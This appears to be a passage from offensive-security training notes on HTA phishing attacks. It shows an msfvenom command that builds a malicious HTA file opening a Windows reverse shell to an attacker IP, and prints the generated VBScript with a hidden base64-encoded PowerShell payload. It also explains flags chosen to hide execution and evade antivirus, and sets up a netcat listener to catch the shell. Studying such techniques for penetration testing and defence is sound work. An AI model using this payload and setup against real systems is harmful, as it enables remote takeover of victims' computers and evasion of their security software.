 ### **2.2. HTA Attack in Action**

Use `msfvenom` to create a malicious HTA file that will execute a reverse shell on the target system: evil.hta

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.190.133 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta 
```

The `-f` option specifies the output format. The `hta-psh` format will create a HTA file that will execute a PowerShell reverse shell

![](./img/Chapter13/9.png)

Analyzing the `evil.hta` file:

```html
<script language="VBScript">
  window.moveTo -4000, -4000
  Set a4_t_ryh5H_6 = CreateObject("Wscript.Shell")
  Set nmu = CreateObject("Scripting.FileSystemObject")
  For each path in Split(a4_t_ryh5H_6.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If nmu.FileExists(path + "\..\powershell.exe") Then
      a4_t_ryh5H_6.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQ...",0
      Exit For
    End If
  Next
  window.close()
</script>
```

- The variable names have been randomized in order to trick detection and antivirus software
- The PowerShell is executed by the Run method of the Windows Scripting Host along with three command line arguments
    - `-nop` prevents PowerShell from loading its profile. When PowerShell is started, it will, by default, load any existing user's profile scripts, which might negatively impact the execution of our code
    - `-w hidden` is to avoid creating a window on the user’s desktop
    - `-e` is used to specify that the following argument is a base64-encoded PowerShell script

Set up a listener on the attacking machine:

```bash
nc -nlvp 4444
```
